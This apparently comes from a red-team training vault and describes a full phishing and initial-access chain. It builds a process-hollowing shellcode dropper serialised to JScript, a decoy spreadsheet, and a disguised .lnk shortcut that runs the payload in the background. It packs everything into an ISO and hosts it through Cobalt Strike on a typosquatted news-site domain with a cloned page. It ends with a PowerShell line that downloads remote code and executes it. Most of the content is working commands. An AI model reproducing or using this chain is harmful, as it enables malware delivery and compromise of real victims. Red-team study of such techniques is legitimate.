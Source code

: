 
#### Dropper

1. Make directory for dependencies for infection chain
2. Create a Visual Studio **Class Library (.NET Framework)**

> Place in the same directory: Checked

3. Add _**http_x64.xprocess.bin**_ (shellcode) as an embedded resource.
	1. Right-click on the project in the Solution Explorer and go to **Add > Existing Item**.  
	2. Select a payload file to embed in the dropper, e.g. `http_x64.exe`
	3. Then in its properties, change the **Build Action** to **Embedded Resource**.

4. Use the linked process hollowing dropper [source code](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Compromise%2FFoothold%20Establishment%2FDroppers%2FProcess%20Hollowing%20Dropper) in Class1.cs
5. Build the project to a DLL in Release mode.

6. Serialise the DLL using G2JS.
```powershell
C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a C:\Users\Attacker\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\deals\deals
```

#### Decoy, Trigger, Container

 > & 'C:\Program Files\Microsoft Office\Office16\OSPPREARM.EXE'
1. Create decoy Excel spreadsheet file and save in deals directory

> **Remove the authors from the document**

```xml
id  product      discount  code
1   Prodder      56%       54473-150
2   Viva         9%        0378-5713
3   Aerified     22%       43742-0187
4   Zaam-Dox     26%       35356-687
5   Rank         41%       63323-300
6   Pannier      61%       50804-302
7   Wrapsafe     32%       67046-223
8   Voltsillam   58%       55910-721
9   Ventosanzap  4%        0485-0051
10  Otcom        54%       36987-2281
```

2.  Create new `.lnk` file with the following

>  This will start command prompt, open the decoy and start payload in background

```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\deals\deals.xlsx.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start deals.xlsx && wscript deals.js"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()
```

3. In a wsl shell use PackMyPayload to  pack the files into an `iso`.

> Hide the decoy and payload. Only show trigg‌er

```bash
python3 /mnt/c/Tools/PackMyPayload/PackMyPayload.py -H deals.xlsx,deals.js /mnt/c/Payloads/deals/ /mnt/c/Payloads/deals/deals.iso
```

#### Delivery
1. Host the ISO on Cobalt Strike's built-in web server.
	1.  Go to **Site Management > Host File**.
	2.  File: C:\Payloads\deals\deals.iso
	3.  Local URI: /deals.iso
	4.  Local Host: www.bleepincomputer.com
	5.  Click **Launch**.
![[Pasted image 20250702212549.png]]

2. Clone a legitimate web page (**Site Management > Clone Site**).
	1.  Clone URL: https://deals.bleepingcomputer.com
	2.  Local URI: /deals
	3.  Local Host: www.bleepincomputer.com
	4.  Attack: _deals.iso_
	5.  Click **Clone**.
![[Pasted image 20250702212802.png]]

```
iexplore www.bleepincomputer.com
```

```powershell
iex(iwr "http://www.bleepincomputer.com/demo" -useb)
```